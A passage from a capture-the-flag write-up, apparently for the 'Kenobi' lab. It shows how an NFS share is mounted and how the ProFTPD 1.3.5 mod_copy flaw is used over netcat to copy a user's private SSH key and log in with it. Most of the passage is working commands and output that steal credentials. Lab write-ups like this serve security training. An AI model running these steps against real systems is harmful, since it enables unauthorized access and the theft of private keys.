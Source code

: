 We get the answer to our next question:

> How many exploits are there for the ProFTPd running? \
> Answer: 4

As can be observed, we have 4 different exploits we can try out, 3 of which are based the `mod_copy` module. The `mod_copy` module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Since we know that the FTP service is running as `kenobi` and we have that a ssh key was generated for the same user, we can try to copy kenobi's private key using the SITE CPFR and SITE CPTO commands. 

```shell-session
$ mkdir /tmp/kenobi_var
$ sudo mount -t nfs  TARGET_IP:/var /tmp/kenobi_var

$ cd /tmp/kenobi_var
$ ls -la
total 64
drwxr-xr-x 14 root root    4096 Sep  4  2019 .
drwxrwxrwt 17 root root   12288 Nov 19 19:57 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff   4096 Apr 13  2016 local
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root render  4096 Sep  4  2019 log
drwxrwsr-x  2 root mail    4096 Feb 27  2019 mail
drwxr-xr-x  2 root root    4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root    4096 Jan 30  2019 snap
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
drwxrwxrwt  6 root root    4096 Nov 19 19:32 tmp
drwxr-xr-x  3 root root    4096 Sep  4  2019 www
```

We use netcat to bypass the need for a username and password:
```shell-session
$ nc  TARGET_IP  21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [TARGET_IP]
site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
```

We can now go to `/var/tmp` and get Kenobi's private ssh key.
```shell-session
$ cp ./tmp/id_rsa /tmp
$ ls -la id_rsa                                           
-rw-r--r-- 1 novusedge novusedge 1675 Nov 19 20:05 id_rsa

# Change permissions on id_rsa since we need them to be 600:
$ chmod 600 id_rsa
$ ssh -i id_rsa kenobi@TARGET_IP 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.

```